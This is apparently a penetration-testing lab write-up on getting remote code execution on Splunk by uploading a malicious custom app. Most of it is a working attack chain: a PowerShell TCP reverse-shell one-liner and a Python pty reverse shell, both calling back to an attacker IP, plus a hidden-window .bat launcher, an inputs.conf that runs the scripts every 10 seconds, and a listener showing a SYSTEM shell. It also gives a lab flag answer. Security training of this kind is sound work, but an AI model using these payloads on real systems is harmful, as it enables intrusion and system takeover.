

# Attacking Splunk

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1).&#x20;

first we need to create a custom Splunk application using the following directory structure.

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

* bin -> will contain scripts we want to run
* default -> will contain inputs.conf

**PowerShell one-liner reverse shell**


```powershell-session
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


**inputs.conf** tells Splunk which script to run and any other conditions

we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```batch
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

next step is to choose `Install app from file` and upload the application.

<figure><figcaption><p>Install app from file</p></figcaption></figure>

start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`

<figure><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

* we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network


If we were dealing with Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app


```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

## Assessment

Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.


edit ps1 file and add our IP address and PORT to connect then upload through&#x20;

Splunk enterprise > App > Manage App > install app from file > browse&#x20;

listen before clicking upload.

<figure><figcaption><p>nt authority\system</p></figcaption></figure>

<figure><figcaption><p>l00k_ma_no_AutH!</p></figcaption></figure>

